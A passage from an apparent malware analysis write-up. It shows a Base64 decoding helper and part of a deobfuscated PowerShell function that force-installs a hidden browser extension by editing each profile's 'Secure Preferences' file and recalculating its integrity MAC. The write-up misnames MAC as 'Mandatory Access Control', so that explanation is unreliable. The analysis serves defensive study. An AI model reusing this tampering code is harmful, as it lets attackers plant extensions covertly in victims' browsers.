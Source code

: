 ```
if __name__ == "__main__":
    au_jky = input("Base64 of $AUJKY: ")
    result = decode_powershell_style(au_jky.strip())
    print("\nResultado decodificado:\n")
    print(result)

```

Finnaly, the last script:

<img src="/static/Extension/Pasted image 20250524142952.png" alt="drawing" width="1000"/>

It's a very big script. What it mostly does is decode each Base64 string (which represents the content of the extension's files) and add it to its respective file. But the question is: How does it add the extension to the browser?

<img src="/static/Extension/Pasted image 20250528223241.png" alt="drawing" width="1000"/>

The following deobfuscated function reveals that the extension was installed by modifying the 'Secure Preferences' file while enforcing Developer Mode in the browser:

Note that MAC (Mandatory Access Control) is recalculated to trick the browser into accepting malicious changes. Without this step, the browser's integrity check would fail!

```
function Modify-BrowserSettings
{
    param(
        $Base64Settings,
        $ExtensionName,
        $ExtensionPath,
        $BrowserProfilesDirectory,
        $BrowserName,
        $UserSID,
        $HexString,
        $SettingsKey = "settings"
    )

    if (Test-Path $BrowserProfilesDirectory -PathType Container)
    {
        $BrowserExecutablePath = Get-BrowserExecutablePath $BrowserName
        $CurrentUsername = $Env:USERNAME
        $LocalUser = Get-LocalUser -Name $CurrentUsername | Select-Object SID
        
        if ($LocalUser)
        {
            $UserSID = $LocalUser.SID.ToString().Substring(0, $LocalUser.SID.ToString().Length - 5)
            $ProfileDirectories = Get-ChildItem -Path $BrowserProfilesDirectory -Directory | 
                Where-Object { $_.Name -like "Default" -or $_.Name -like "Profile*" }
            
            if ($ProfileDirectories.Count -gt 0)
            {
                foreach ($ProfileDirectory in $ProfileDirectories)
                {
                    $SecurePreferencesPath = "$BrowserProfilesDirectory\$($ProfileDirectory.Name)\Secure Preferences"

                    $JsonData = Get-Content -Raw -Path $SecurePreferencesPath -Encoding UTF8 | ConvertFrom-Json
                    $CryptoKey = Convert-HexStringToKey -HexString $HexString
                    $ExtensionSettings = ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Base64Settings)) | ConvertFrom-Json)
                    $ExtensionSettings.Path = $ExtensionPath
                    
                    # Add extension settings
```